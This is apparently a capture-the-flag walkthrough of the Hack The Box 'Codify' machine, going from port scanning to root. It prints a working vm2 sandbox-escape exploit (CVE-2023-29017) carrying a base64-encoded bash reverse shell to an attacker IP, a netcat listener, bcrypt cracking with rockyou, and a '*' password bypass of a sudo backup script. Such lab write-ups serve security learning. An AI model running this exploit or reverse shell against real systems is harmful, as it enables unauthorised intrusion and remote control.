




Today we will resolve codify.

Codify is a Linux machine with a level of diculty easy.

As of now,  this machine is still alive.

So please I recommend try harder and don't go ahead.

I  will show you how to leverage a known CVE to bypass a sandbox security mechanim, pivot to another user so we can escalate priviledges taking advantage of a bash script with some bugs.


## INTRO

IP: 10.10.11.239

NAME: codify

S.O.: Linux 

Difficulty: easy

## RECON

As usual, we will start with the recon phase , running a TCP SYN  scan on all  TCP open  ports.

In order to go faster, we will run it  in an aggressive way (T5), with a rate of 5000 and We don’t want to resolve the hostname (n)  and don't need host discovery (Pn)

We will show the output via console (v) and we will store the results in nmap format (oN) codify_nmap.txt file so we can have a look whenever we want.

```bash 
nmap -p- --open -sS --min-rate 5000 -vvv -n -T5 -Pn -oN codify_nmap.txt 10.10.11.239
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2024-01-13 14:05 CET
Initiating SYN Stealth Scan at 14:05
Scanning 10.10.11.239 [65535 ports]
Discovered open port 80/tcp on 10.10.11.239
Discovered open port 22/tcp on 10.10.11.239
Discovered open port 3000/tcp on 10.10.11.239
Completed SYN Stealth Scan at 14:05, 15.55s elapsed (65535 total ports)
Nmap scan report for 10.10.11.239
Host is up, received user-set (0.12s latency).
Scanned at 2024-01-13 14:05:38 CET for 15s
Not shown: 64925 closed tcp ports (reset), 607 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
80/tcp   open  http    syn-ack ttl 63
3000/tcp open  ppp     syn-ack ttl 63
```

3 open TCP ports detected, 22, 80 and 3000

## ENUMERATION

So, in order to get more information about those open oports, let’s  run some basic enumeration scripts (sCV)

```bash 
nmap -sCV -p22,80,3000 -n -Pn -v 10.10.11.239 -oN codify-services-nmap.txt                                            
Starting Nmap 7.92 ( https://nmap.org ) at 2024-01-13 14:10 CET
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://codify.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
From the basic service enumeration we got:


Port 80 redirects to http://codify.htb

just let’s add codify.htb to /etc/hosts

Port 3000 is running node.js express

**Let’s run whatweb command**, and then we will visit the web page  to get more info related to  this website, such as frameworks, technologies, e-mails, users,....

```bash 
whatweb http://codify.htb/  
http://codify.htb/ [200 OK] Apache[2.4.52], Bootstrap[4.3.1], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[10.10.11.239], Title[Codify], X-Powered-By[Express]
```

We  browse through the site and we find something interesting



sandboxing word sounds really interesting, make sense to have a look at that library

[https://github.com/patriksimek/vm2/](https://github.com/patriksimek/vm2/){:target="_blank"}


The library contains critical security issues and should not be used for production!



So now it is time to find the critical known vulnerability affecting that library

## EXPLOITATION

vm2 library is affected by a vulnerability, tracked as CVE-2023-29017, has the CVSS score of 9.8, and threat actors could use it to escape the sandbox and execute arbitrary code.

Further information: [https://socradar.io/critical-vulnerability-in-vm2-javascript-sandbox-library-exploit-code-available/](https://socradar.io/critical-vulnerability-in-vm2-javascript-sandbox-library-exploit-code-available/){:target="_blank"}


**Now we will  prepare our reverse shell so we can get into the victim**

Just to avoid any problem with http protocol, we will encode our payload

```bash 
echo "/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.99/443 0>&1'" | base64 -w 0 
L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0Ljk5LzQ0MyAwPiYxJwo=                       
```

**So finally our payload will be:**

```bash 
L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0Ljk5LzQ0MyAwPiYxJwo= | base64 -d | bash
```

So just we need to add my payload to the exploit, go to editor a click on run:

```bash 
const {VM} = require("vm2");
const vm = new VM();

const code = `
async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}
p = fn();
p.constructor = {
    [Symbol.species]: class FakePromise {
        constructor(executor) {
            executor(
                (x) => x,
                (err) => { return err.constructor.constructor('return process')().mainModule.require('child_process').execSync('echo L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0Ljk5LzQ0MyAwPiYxJwo= | base64 -d | bash'); }
            )
        }
    }
};
p.then();
`;

console.log(vm.run(code));
```



**In parallel we will  run the listener to capture the reverse shell**

```bash 
└─# nc -nlvp 443                            
listening on [any] 443 ...
connect to [10.10.14.99] from (UNKNOWN) [10.10.11.239] 55856
bash: cannot set terminal process group (1255): Inappropriate ioctl for device
bash: no job control in this shell
svc@codify:~$ whoami
whoami
svc
svc@codify:~$ 
```

**We get a shell owned by svc user**, and that user does not allow to get the flag.

There is another user under home, “joshua”,  so we will need to pivote to get joshua permissions

```bash 
svc@codify:/home$ ls -la
total 16
drwxr-xr-x  4 joshua joshua 4096 Sep 12 17:10 .
drwxr-xr-x 18 root   root   4096 Oct 31 07:57 ..
drwxrwx---  4 joshua joshua 4096 Jan 13 22:54 joshua
drwxr-x---  4 svc    svc    4096 Jan 14 05:27 svc
svc@codify:/home$ cd svc
svc@codify:~$ ls -la
total 32
drwxr-x--- 4 svc    svc    4096 Jan 14 05:27 .
drwxr-xr-x 4 joshua joshua 4096 Sep 12 17:10 ..
lrwxrwxrwx 1 svc    svc       9 Sep 14 03:28 .bash_history -> /dev/null
-rw-r--r-- 1 svc    svc     220 Sep 12 17:10 .bash_logout
-rw-r--r-- 1 svc    svc    3771 Sep 12 17:10 .bashrc
drwx------ 2 svc    svc    4096 Sep 12 17:13 .cache
drwxrwxr-x 5 svc    svc    4096 Jan 13 22:37 .pm2
-rw-r--r-- 1 svc    svc     807 Sep 12 17:10 .profile
-rw-r--r-- 1 svc    svc       0 Jan 14 05:28 pwned
-rw-r--r-- 1 svc    svc      39 Sep 26 10:00 .vimrc
```

## PRIV ESCALATION TO JOSHUA

We upload linpeas to cofiy and we run it. The output provide value information like an interesting database, tickets.db.

Running **file tickets.db** we find out that this DB is a  sqlite database.

We download it to our local machine and we open it with sqlite3

```bash 
sqlite> .tables
tickets  users  
sqlite> select * from users;
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
sqlite> 
```

**We get the hash of joshua user:**
"\$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2"

"\$2a\$"

 is indicator of a  bcrypt format, so let’s see if joshua user has a weak password and then we are able to crack it:

```bash 
└─# john -format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:02 0.00% (ETA: 2024-02-03 13:40) 0g/s 8.571p/s 8.571c/s 8.571C/s ashley..111111
spongebob1       (?)     
1g 0:00:02:47 DONE (2024-01-14 16:49) 0.005985g/s 8.062p/s 8.062c/s 8.062C/s 
```

The attack based on the rockyou dictionary worked, and now is time  to connect to the victim machine using joshua credentials

```bash 
joshua@codify:~$ whoami
joshua
joshua@codify:~$ ls -la
total 40
drwxrwx--- 4 joshua joshua 4096 Jan 13 22:54 .
drwxr-xr-x 4 joshua joshua 4096 Sep 12 17:10 ..
-rw-rw-r-- 1 joshua joshua  515 Jan 13 22:54 123.py
lrwxrwxrwx 1 root   root      9 May 30  2023 .bash_history -> /dev/null
-rw-r--r-- 1 joshua joshua  220 Apr 21  2023 .bash_logout
-rw-r--r-- 1 joshua joshua 3771 Apr 21  2023 .bashrc
drwx------ 2 joshua joshua 4096 Sep 14 14:44 .cache
drwxrwxr-x 3 joshua joshua 4096 Jan 13 22:54 .local
-rw-r--r-- 1 joshua joshua  807 Apr 21  2023 .profile
-rw-r----- 1 root   joshua   33 Jan 13 22:37 user.txt
-rw-r--r-- 1 joshua joshua   39 Sep 14 14:45 .vimrc
joshua@codify:~$
```

**Let’s get the flag:**

```bash 
joshua@codify:~$ cat user.txt 
c40aa75f9bc93d5ea9b7b5af934bb03c
joshua@codify:~$
```

## PRIVILEGE ESCALATION

I like to start with some basic enumeration commands like **sudo -l** to see if joshua user can execute some command that just root can run

```bash 
joshua@codify:~$ sudo -l
[sudo] password for joshua: 
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```

And as we can see,  joshua user can run /opt/scripts/mysql-backup.sh command with root permissions providing Joshua password, which we have it.

**If we have a look at the script, we observe several bad security practices**

```bash 
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

The objective of the  script is just make a backup of the mysql database.


**Let’s focus on the condition**

```bash 
if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi
```

Apparently the condition compares 2 strings, if root password is  equal to the password provided by the user, then the condition is true and the mysql and mysqldump commands will be executed.

So if we were able to bypass that condition, we could try to monitor the processes running by root,  check the mysqldump process and get the root password, since  another bad practice is to pass the root password as a parameter via the command line.

Looking into the condition, there is a double [[ ]] , and the USER_PASS variable is not quoted.

And when the right-hand side of an = operator inside [[ is not quoted, bash does pattern matching against it, instead of treating it as a string.

So, in the code above, if USER_PASS contains *, the result will always be true. If we want to check for equality of strings, the right-hand side should be quoted:

```bash 
if [[ $DB_PASS == “$USER_PASS” ]]; then
```


Further information: [https://mywiki.wooledge.org/BashPitfalls#if_.5B.5B_.24foo_.3D_.24bar_.5D.5D_.28depending_on_intent.29](https://mywiki.wooledge.org/BashPitfalls#if_.5B.5B_.24foo_.3D_.24bar_.5D.5D_.28depending_on_intent.29){:target="_blank"}

**We try it and it worked:**

```bash 
joshua@codify:/tmp/.alter$ sudo /opt/scripts/mysql-backup.sh 
[sudo] password for joshua: 
Enter MySQL password for root: *
Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
Backing up database: mysql
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
Backing up database: sys
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
All databases backed up successfully!
Changing the permissions
Done!
```

So now, while we execute the mysql script, from another session in the victim,  we can monitor the running processes with pspsy command and check the mysqldump command to get the root password




**Let’s try to connect with root user and the password discovered  and get the flag**


